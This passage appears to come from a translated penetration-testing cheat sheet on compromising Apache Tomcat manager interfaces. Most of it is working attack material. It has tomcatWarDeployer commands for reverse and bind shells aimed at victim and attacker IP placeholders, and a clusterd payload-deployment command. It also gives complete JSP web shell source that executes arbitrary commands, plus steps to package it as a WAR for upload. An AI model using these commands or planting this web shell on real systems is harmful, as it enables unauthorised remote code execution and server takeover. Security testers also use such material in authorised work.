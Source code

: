 #### डाउनलोड
```bash
git clone https://github.com/mgeeky/tomcatWarDeployer.git
```
#### रिवर्स शेल
```bash
./tomcatWarDeployer.py -U <username> -P <password> -H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/
```
#### बाइंड शेल
```bash
./tomcatWarDeployer.py -U <username> -P <password> -p <bind_port> <victim_IP>:<victim_PORT>/manager/html/
```
### Using [Culsterd](https://github.com/hatRiot/clusterd)
```bash
clusterd.py -i 192.168.1.105 -a tomcat -v 5.5 --gen-payload 192.168.1.6:4444 --deploy shell.war --invoke --rand-payload -o windows
```
### Manual method - Web shell

**index.jsp** को इस [सामग्री](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) के साथ बनाएं:
```java
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
String output = "";
if(cmd != null) {
String s = null;
try {
Process p = Runtime.getRuntime().exec(cmd,null,null);
BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
while((s = sI.readLine()) != null) { output += s+"</br>"; }
}  catch(IOException e) {   e.printStackTrace();   }
}
%>
<pre><%=output %></pre>
```

```bash
mkdir webshell
cp index.jsp webshell
cd webshell
jar -cvf ../webshell.war *
webshell.war is created
# Upload it
```
आप इसे भी स्थापित कर सकते हैं (अपलोड, डाउनलोड और कमांड निष्पादन की अनुमति देता है): [http://vonloesch.de/filebrowser.html](http://vonloesch.de/filebrowser.html)
